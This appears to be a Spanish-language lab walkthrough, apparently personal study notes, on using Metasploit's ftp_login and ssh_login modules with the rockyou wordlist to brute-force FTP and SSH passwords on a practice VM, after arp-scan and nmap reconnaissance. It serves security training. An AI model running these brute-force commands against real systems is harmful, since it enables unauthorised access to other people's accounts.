 - Maquinas que vamos a usas **Kali Linux** y **Friendly 3**.

  

Vamos a ver como utilizar Metasploit para hacer ataques de fuerza bruta contra el protocolo SSH como contra FTP.

Vamos a hacer arc-scan para identificar el maquina victima en nuestra red.

```Bash
sudo arp-scan -I eth0 --localnet
```

![[Imagenes/image 24.png|image 24.png]]

  

```Bash
nmap -p- -sS -sV -sC -min-rate 5000 -n -vvv -Pn 10.0.3.8
```

![[Imagenes/image 1 13.png|image 1 13.png]]

  

- Vamos a empezar por el puerto 21 que corre el protocolo FTP sabiendo el nombre de usuario.
    - Lanzamos el Metasploit y hacemos la siguiente búsqueda.
        
        `search ftp_login`
        
        ![[Imagenes/image 2 12.png|image 2 12.png]]
        
        Este modulo sirve para autentificarnos en FTP pero también nos permite hace fuerza bruta.
        
          
        
    - Usamos el Modulo
        
        `use 0`
        
        ![[Imagenes/image 3 11.png|image 3 11.png]]
        
          
        
        También podríamos hacer un use copiando el nombre del modulo.
        
        `use auxiliary/scanner/ftp/ftp_login`
        
        ![[Imagenes/image 4 10.png|image 4 10.png]]
        
          
        
    - Miramos las opciones
        
        `show options`
        
        ![[Imagenes/image 5 9.png|image 5 9.png]]
        
          
        
        Solo vamos a configurar dos opciones:
        
        - **PASS_FILE** que es el diccionario de contraseñas
        - **USERNAME** es el nombre de usuario que conocemos
        - **RHOST** es la IP de la maquina opjetivo
        
          
        
    - Vamos a cargar el diccionario **rockyou.txt**
        
        `set PASS_FILE /usr/share/wordlists/rockyou.txt`
        
        `show options`
        
        ![[Imagenes/image 6 8.png|image 6 8.png]]
        

- Introducimos el nombre del usuario que ya conocemos.
    
    `set USERNAME juan`
    
    `set RHOST 10.0.3.8`
    
    `show options`
    
    ![[Imagenes/image 7 7.png|image 7 7.png]]
    

- Lanzamos el ataque
    
    `run`
    
    ![[Imagenes/image 8 6.png|image 8 6.png]]
    

  

- Vamos a por el puerto 22 que corre el protocolo SSH sabiendo el nombre de usuario.
    
    - hacemos la siguiente búsqueda
        
        `search ssh_login`
        
        ![[Imagenes/image 9 6.png|image 9 6.png]]
        
    
      
    
    - Utilizaremos el primero
        
        `use 0`
        
        `show options`
        
        ![[Imagenes/image 10 6.png|image 10 6.png]]
        
          
        
    - Seria todo idéntico a lo que hemos hecho con FTP
        
        `set USERNAME juan`
        
        `set PASS_FILE /usr/share/wordlists/rockyou.txt`
        
        `set RHOST 10.0.3.8`
        
        `show options`
        
        ![[Imagenes/image 11 5.png|image 11 5.png]]
        

- Ejecutamos el ataque
    
    `run`
    
    ![[Imagenes/image 12 5.png|image 12 5.png]]
    

- Lo probamos. abrimos un terminal nuevo.
    
    ```Bash
    ssh juan@10.0.3.8
    ```
    
    ![[Imagenes/image 13 5.png|image 13 5.png]]
    

  

**NOTA: apara hacer ataques de fuerza bruta Hydra es mucho mas rápido.**